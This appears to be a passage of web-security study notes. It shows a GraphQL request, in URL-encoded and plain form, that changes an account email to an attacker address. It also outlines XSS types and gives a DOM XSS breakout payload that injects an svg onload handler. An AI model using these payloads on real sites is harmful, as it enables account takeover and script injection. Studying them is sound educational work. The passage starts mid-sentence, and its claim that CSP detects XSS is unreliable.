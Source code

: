 to

URL encoded

```
query=%0A++++mutation+changeEmail%28%24input%3A+ChangeEmailInput%21%29+%7B%0A++++++++changeEmail%28input%3A+%24input%29+%7B%0A++++++++++++email%0A++++++++%7D%0A++++%7D%0A&operationName=changeEmail&variables=%7B%22input%22%3A%7B%22email%22%3A%22hacker%40hacker.com%22%7D%7D
```

or

```
query=
    mutation changeEmail($input: ChangeEmailInput!) {
        changeEmail(input: $input) {
            email
        }
    }
&operationName=changeEmail&variables={"input":{"email":"hacker@hacker.com"}}
```


------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------


## <h2>Cross-site Scripting (XSS)</h2>

Reflected XSS, where the malicious script comes from the current HTTP request.

Stored XSS, where the malicious script comes from the website's database.

DOM-based XSS, where the vulnerability exists in client-side code rather than server-side code.

<h2>Automated tool with Burp Pro Vulnerability Scanner feature</h2>

Details: https://portswigger.net/burp/vulnerability-scanner

<h2>Content security policy</h2>

Content security policy or CSP is used to detect XSS.

DOM-based XSS 

Let say 

```
<img src="/resources/images/tracker.gif?searchTerms=">
```

We can try to create img script tag by 

```
"><svg onload=alert(1)> 
```

So, it will look like this

```
<img src="/resources/images/tracker.gif?searchTerms="><svg onload=alert(1)>
```
Basically just another tag in HTML

